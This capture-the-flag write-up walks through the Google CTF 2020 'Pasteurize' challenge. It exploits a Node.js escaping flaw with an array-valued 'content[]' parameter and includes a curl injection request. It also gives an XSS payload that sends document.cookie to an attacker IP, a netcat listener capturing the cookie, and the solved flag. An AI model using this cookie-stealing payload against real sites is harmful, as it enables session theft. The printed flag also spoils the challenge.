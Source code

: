 ```yaml
---
title:  "Pasteurize"
date:   2020-06-08 15:04:23
categories: [google-ctf-2020]
tags: [ctf, web, nodejs]
---
```

This problem seemed was great at expanding my knowledge for NodeJS and the issues with taking inputs without sanitizing them properly. Also why most websites dont allow for users to give custom html/css anymore.
![image tooltip here](/images/pasture.png)

going to `https://pasteurize.web.ctfcompetition.com/` we can see a simple screen giving us an input.
Also if we take a deeper look we can see that this inputs form allows for us to input custom html. Which might allow use to do an XSS attack with something like `<script>alert(1);</script>` Which past me can tell you that it doesn't work.
![image tooltip here](/images/pasture_land.png)

Moving onto the html source code we see that the javascripts is coming from the `/source` specifically it looks like it is NodeJS 
![image tooltip here](/images/found.png)

This is useful especially these three portions

```javascript
/* Make sure to properly escape the note! */
app.get('/:id([a-f0-9\-]{36})', recaptcha.middleware.render, utils.cache_mw, async (req, res) => {
  const note_id = req.params.id;
  const note = await DB.get_note(note_id);

  if (note == null) {
    return res.status(404).send("Paste not found or access has been denied.");
  }

  const unsafe_content = note.content;
  const safe_content = escape_string(unsafe_content);

  res.render('note_public', {
    content: safe_content,
    id: note_id,
    captcha: res.recaptcha
  });
});
````

and 


```javascript
/* They say reCAPTCHA needs those. But does it? */
app.use(bodyParser.urlencoded({
  extended: true
}));
```
especially 

```javascript
/* Who wants a slice? */
const escape_string = unsafe => JSON.stringify(unsafe).slice(1, -1)
  .replace(/</g, '\\x3C').replace(/>/g, '\\x3E');
```
which because the code is extended thanks to the creator allows us to use a nested array in the payload of `content` can become `content[]` so we can inject code into it with curl


Note for obvious reasons it is recommended to never allow the post of a GET request to actually function in any meaningful way cause what is happening right now might happen to you
```bash
curl 'https://pasteurize.web.ctfcompetition.com/' \
-H 'User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:84.0) Gecko/20100101 Firefox/84.0' \
-H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8' \
-H 'Accept-Language: en-US,en;q=0.5' \
--compressed -H 'Connection: keep-alive' \
-H 'Upgrade-Insecure-Requests: 1' \
-H 'Sec-GPC: 1' \
-H 'DNT: 1' \
-H 'If-None-Match: W/"2e4-f6rsMDbli7YmLKw6n/omsAXDVO4"' \
-H 'Cache-Control: max-age=0' -H 'TE: Trailers' -d "content[]=;alert(1);"
```
To get this little curl command I used Firefox's `Inspect Element` option and went to the `network` tab and copied the get request as a `cURL` or you can `Edit and Resend` if you are not using Linux, cause WebInvoke does not like this style of formating in Windows.
![image tooltip here](/images/fire_get.png)

At this point we can inject a piece of code to allow 

`content[;document.getElementById('note-content').innerHTML='<img src=http://<YOUR IP ADDRESS>:1337?c='%2bdocument.cookie%2b'>';exit();//]=pwnd`

opening a netcat commannd and listen for them to respond

```bash
nc -lvnp 1337
Connection from 104.155.55.51:40640
GET /?c=secret=CTF{Express_t0_Tr0ubl3s}
Pragma: no-cache
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) HeadlessChrome/85.0.4182.0 Safari/537.36
Accept-Encoding: gzip, deflate
Host: 1.2.3.4:1337
Via: 1.1 infra-squid (squid/3.5.27)
X-Forwarded-For: 34.78.209.239
Cache-Control: no-cache
Connection:keep-alive
```
bada bing bada boom we're done. Also make sure your router is directing traffic properly for this to work cause netcats only looks at what you direct to it

`CTF{Express_t0_Tr0ubl3s}`


